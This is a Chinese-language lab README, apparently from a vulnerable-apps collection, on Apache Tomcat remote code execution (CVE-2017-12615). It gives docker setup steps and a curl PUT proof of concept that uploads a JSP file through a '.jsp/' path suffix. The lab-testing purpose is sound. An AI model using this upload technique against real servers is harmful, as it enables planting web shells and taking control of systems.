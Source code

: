 ## Tomcat 远程代码执行漏洞 (CVE-2017-12615)

### 漏洞信息

 * [Fixed in Apache Tomcat 7.0.81](http://tomcat.apache.org/security-7.html#Fixed_in_Apache_Tomcat_7.0.81)
 * [Tomcat代码执行漏洞分析测试(附POC)](https://mp.weixin.qq.com/s/dgWT3Cgf1mQs-IYxeID_Mw)
 
 > 根据测试发现 7.0.81 并未修复完全，可绕过，具体参考下方paper链接

 * [云鼎实验室：Tomcat 远程代码执行漏洞分析（CVE-2017-12615）及补丁 Bypass](https://paper.seebug.org/398/)

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:t_tomcat_1
 ```

2. 启动环境

 ```
$ docker run -d -p 8080:8080 medicean/vulapps:t_tomcat_1
 ```
 > `-p 8080:8080` 前面的 8080 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

#### PoC

1. 向目标发起 PUT 请求，注意后缀为 `.jsp/`

```
$ curl -X PUT "http://127.0.0.1:8080/123.jsp/" -d '<%out.println("test");%>'
```

2. 然后访问目标地址 `http://127.0.0.1:8080/123.jsp`,  即可看到输出了 `test`


### 参考链接

* [Tomcat代码执行漏洞分析测试(附POC)](https://mp.weixin.qq.com/s/dgWT3Cgf1mQs-IYxeID_Mw)
